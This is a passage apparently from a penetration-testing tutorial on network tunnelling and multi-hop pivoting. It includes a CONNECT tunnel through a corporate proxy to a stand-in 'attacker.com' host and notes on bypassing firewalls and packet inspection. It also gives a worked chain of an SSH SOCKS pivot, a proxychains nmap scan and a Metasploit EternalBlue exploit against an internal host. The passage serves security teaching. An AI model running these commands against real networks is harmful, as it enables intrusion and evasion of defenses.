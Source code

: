 ```bash
# Manual CONNECT proxy
telnet proxy.company.com 3128
CONNECT attacker.com:443 HTTP/1.1
Host: attacker.com:443

# Browser-based HTTP tunneling
# Use browser developer tools to send HTTP requests
# Embed commands in HTTP headers or POST data

# WebSocket tunneling (modern HTTP upgrade)
# Upgrade HTTP connection to WebSocket
# Full-duplex communication over port 80/443

# HTTPS tunneling with SSL
# Encrypt tunnel traffic within HTTPS
# Bypasses deep packet inspection

# HTTP tunneling through legitimate services
# Use cloud services as relay points
# Examples: Google Apps Script, AWS Lambda, Azure Functions

# Why HTTP/HTTPS tunneling is universally effective:
# - Works through all web-enabled networks
# - Bypasses most firewall configurations
# - Can leverage legitimate web services
# - Encrypted HTTPS variant prevents inspection
# - Compatible with corporate proxy environments
```

## Multi-Hop Pivoting Scenarios

### **Complex Network Traversal**

**What multi-hop pivoting involves:** Chaining multiple pivot points together to traverse complex network topologies with multiple security boundaries.

**Why multi-hop pivoting is necessary:** Enterprise networks have multiple security zones, defense-in-depth strategies, and micro-segmentation that require multiple pivot points.

```bash
# Multi-hop pivoting scenario example
# Internet -> DMZ (Pivot 1) -> Internal LAN (Pivot 2) -> Server Network (Target)

# Stage 1: Initial DMZ compromise and pivot setup
# Compromise DMZ web server: 203.0.113.10
# Internal interface: 192.168.1.10

# Set up first pivot point
ssh -D 1080 user@203.0.113.10               # SOCKS proxy through DMZ

# Stage 2: Internal LAN access through first pivot
# Scan internal network through SOCKS proxy
proxychains nmap -sS 192.168.1.0/24

# Identify internal targets: 192.168.1.50 (workstation)
# Compromise internal workstation through pivot
proxychains msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.50
set PROXIES socks5:127.0.0.1:1080
exploit

# Stage 3: Second pivot point establishment
# Internal workstation has access to server network: 10.0.0.0/24
```